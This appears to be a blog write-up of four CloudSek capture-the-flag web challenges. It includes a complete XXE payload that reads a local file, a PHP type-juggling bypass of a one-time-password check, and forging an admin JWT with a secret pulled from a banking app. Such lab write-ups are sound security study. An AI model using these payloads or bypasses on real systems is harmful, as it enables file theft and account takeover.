

+++
date = '2025-12-08T11:27:45+05:30'
draft = false
title = 'Cloudsek CTF'
+++

# CloudSek CTF


# Nitro


Visiting the website, it gives us instructions on how to solve the challenge:

When you visit the hidden API at `/task`, it hands back an HTML snippet containing the current random string. Reverse the string, base64-encode the reversed value, wrap it as `CSK__{{payload}}__2025`, and POST the result to `/submit` before the timer expires. Manual attempts miss the window—only code will do.

You'll receive either the flag or a "too slow" message. Build a loop that fetches fresh prompts, transforms them, and submits the formatted answer immediately. The server keeps you honest with a strict per-session timer.


going to /task:

```
Here is the input string: vb49ljJCFpOe
```


We can make a Session() in python to maintain the session and then parse the request, then we can transform it and send the payload to `/submit`

python script:

```
import requests, base64

URL = "http://15.206.47.5:9090"

s = requests.Session()   # maintain cookies + session timer

#fetch task
r = s.get(URL + "/task").text
print(r)
token = r.split("string: ")[1].replace("</p>","")
print(token)
# transform
rev = token[::-1]
b64 = base64.b64encode(rev.encode()).decode()
payload = f"CSK__{b64}__2025"
# submit
resp = s.post(URL + "/submit", data=payload)
print(resp.text)

```

This will give us the flag for the first challenge


# Bad Feedback

We are given a feedback portal that takes a name and a message. Looking at the source code:

```
// Intercept the form submit and send XML instead of form-encoded data document.getElementById('feedback-form').addEventListener('submit', function (e) { e.preventDefault(); const name = document.getElementById('name').value; const message = document.getElementById('message').value; // Build XML body (players will see this only if they intercept the request) const xml = `<?xml version="1.0" encoding="UTF-8"?> <feedback> <name>${name}</name> <message>${message}</message> </feedback>`; fetch('/feedback', { method: 'POST', headers: { 'Content-Type': 'application/xml' }, body: xml }) .then(resp => resp.text()) .then(html => { // Replace the current page with the response (simple but effective) document.open(); document.write(html); document.close(); }) .catch(err => { alert('Error submitting feedback'); console.error(err); }); });
```

We can see that it parses the data as XML and then sends the request, however there's no sanity checks or input validation. 

This is an XML External Entity (XXE) injection where a user can input their own 'entity', this entity can also be a system file(in this case the flag)

the format of the raw xml is:

```
<feedback>
    <name>...</name>
    <message>...</message>
</feedback>

```

We can define a entity `xxe` that reads the flag:

```
<!ENTITY xxe SYSTEM "file:///flag.txt">
```

We can then print the entity in the name field:

```
 <name>&xxe;</name>
```

Full payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<feedback>
  <name>&xxe;</name>
  <message>test</message>
</feedback>
```

This gives us the flag


# Triangle 

Looking at the source code of the Web application, we can see this comment:

```
<!-- Dev team 2: TODO: Implement google2fa.php for auth and don't forget to clean up the bak files post debugging before release -->
```

This tells us that there are backup files on the server.

In the javascript source:

```
fetch("/login.php", { method: "POST", body: JSON.stringify(data), })
```

There is a post request to `/login.php`

accessing `/login.php.bak` gives us the source code of the login logic, which seems to be the backup file referred by the developer.

Looking at the login page, we can see that it imports `google2fa.php` and uses its `verify_key()`
function in order to check the OTPs

```
    if (!Google2FA::verify_key($user_data['key1'], $_DATA['otp1'])) {
        json_die('wrong otp1', 'otp1');
```

Looking at `verify_key()` by accessing `/google2fa.php.bak`:

```
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {

		$timeStamp = self::get_timestamp();

		if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;

		$binarySeed = self::base32_decode($b32seed);

		for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
			if (self::oath_hotp($binarySeed, $ts) == $key)
				return true;

		return false;

	}
```

The vulnerable line is:
```
if (self::oath_hotp($binarySeed, $ts) == $key)
```
PHP has two comparisons; loose `(==, =!)` and strict` (===)`. Strict comparison 1 = 1, but in loose 1 could mean many things 1 could equal true or 1. Meaning that there multiple meaning for the values used.

This means we can directly send the boolean `True` to pass the OTP check(type juggling/confusion).

- PHP converts `"123456"` to boolean: non-empty string → `true`
- Comparison becomes: `true == true`

We can intercept the request using burpsuite and pass the boolean values


# Ticket 

We can go look at the report on `https://bevigil.com/report/com.strikebank.netbanking` as specified by the challenge description 

Looking at the strings, we can see a username and a password harcoded into the application. It also contains a `encoded_jwt_secret`.





The JWT secret can be decoded to find the string used to encode the JWT tokens


We also see a harcoded URL that leads us to a login page


Logging in with the default username and password just gives us a normal looking page, inspecting the cookies we see a JWT encoded token. 

We can decode the token from base64, this shows us two fields `username` and `exp` which seems to be login expiry timer. 


We can modify the username to `admin` and use the JWT secret from the app and upon succesfully logging in as the admin user, we get the flag


